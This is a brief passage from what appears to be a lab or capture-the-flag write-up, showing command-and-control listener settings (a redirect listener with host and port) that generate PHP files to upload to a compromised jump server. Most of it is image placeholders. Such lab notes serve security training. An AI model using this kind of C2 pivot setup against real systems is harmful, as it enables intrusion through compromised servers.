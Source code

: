 ![[Pasted image 20231231120847.png]]
When created, this will create a set of `.php` files which must be uploaded to the jumpserver (our compromised webserver) and served by a HTTP server. Under normal circumstances this would be a trivial task as the compromised server already has a webserver running; however, out of courtesy to anyone else attempting the network, we will not be using the installed webserver.

![[Pasted image 20231231104451.png]]

```
set RedirectListener CLIHTTP
set HOST 10.200.101.200
set Port 47000
options
execute
```
![[Pasted image 20231231104900.png]]

![[Pasted image 20231231105008.png]]

After executing this files will be created  
![[Pasted image 20231231105302.png]]

Http listener
![[Pasted image 20231231105714.png]]

